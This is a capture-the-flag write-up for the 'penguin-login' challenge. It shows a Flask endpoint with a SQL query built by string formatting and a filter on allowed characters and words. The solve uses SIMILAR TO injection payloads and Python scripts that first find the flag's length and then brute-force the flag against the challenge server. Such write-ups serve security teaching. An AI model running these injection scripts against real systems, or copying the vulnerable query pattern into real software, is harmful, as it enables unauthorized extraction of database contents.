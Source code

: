 penguin-login
> I got tired of people leaking my password from the db so I moved it out of the db. [penguin.chall.lac.tf](penguin.chall.lac.tf)

# Problem
```py
@app.post("/submit")
def submit_form():
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400

    # need to commit to avoid connection going bad in case of error
    finally:
        conn.commit()
```
In the code, this is the only place we can inject a data

The Goal:
- SQL injection with limited input
  - No substring "like"
  - use allowed char only

## solve
The key for this injection is [SIMILAR TO](https://www.postgresql.org/docs/current/functions-matching.html). It allows us to use wildcard to confirm the length and then guess letter one by one.

As the flag has standard format, the payload I choose is `' OR name SIMILAR TO 'lactf_[???]_`
> `{`, `}` has spacial usage at regex, so replace them with `_` to avoid using escape character.

### Guessing the length
```py
def attempt(username):
    url = "https://penguin.chall.lac.tf/submit"
    form = {"username": username}
    resp = req.post(url, form)
    return resp.status_code, resp.content.decode()

for i in range(20,40):
    payload = f"' OR name SIMILAR TO 'lactf_{'_' * i}_".encode()
    code,content = attempt(payload)
    print(i, code , content)
return
# Output:
# ...
# 35 201 No penguins sadg
# 36 201 No penguins sadg
# 37 201 No penguins sadg
# 38 200 We found a penguin!!!!!
# 39 201 No penguins sadg
```
The output shows the length is 38.

### Guessing letter one by one
```py
def check(guess):
    guess = "".join(guess)
    payload = "' OR name SIMILAR TO 'lactf_"+guess+"_"
    code, content = attempt(payload)
    logging.debug(f"{guess} {code} {content}")
    return code == 200

length = 38
guess = ["_"] * length
allowed_chars.remove("'")
allowed_chars.remove("{")
allowed_chars.remove("}")

for i in tqdm(range(38)):
    for ch in tqdm(allowed_chars):
        guess[i] = ch
        if check(guess):
            break
    logging.info(guess)

# The flag
logging.info(f"lactf{{{''.join(guess)}}}")
```
The flag is printed by the last line.
